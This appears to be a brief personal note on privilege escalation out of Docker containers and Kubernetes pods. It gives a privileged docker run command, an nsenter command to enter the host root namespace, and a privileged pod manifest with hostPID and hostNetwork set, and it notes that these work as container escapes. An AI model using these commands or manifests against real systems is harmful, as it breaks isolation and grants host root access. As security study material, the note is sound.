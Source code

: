 ## Privilige escalation

### [[Containers]]

Breakout from docker can be performed by using 

```sh
docker run --pid=host --privileged <container>
```

The **--pid** flag moves docker into the host namespace,
where we can use **nsenter -t 1 -a bash** to enter the host root namespace.

- link: https://isovalent.com/blog/post/2021-11-container-escape/

### [[Kubernetes]]

Similarly to the docker example, constructing a yaml as:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privileged-the-pod
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: privileged-the-pod
    image: nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
```

If **securityContext.privileged** is **true**, the conteiner is also moved into the host namespace.
The attack then works similarly as the docker one.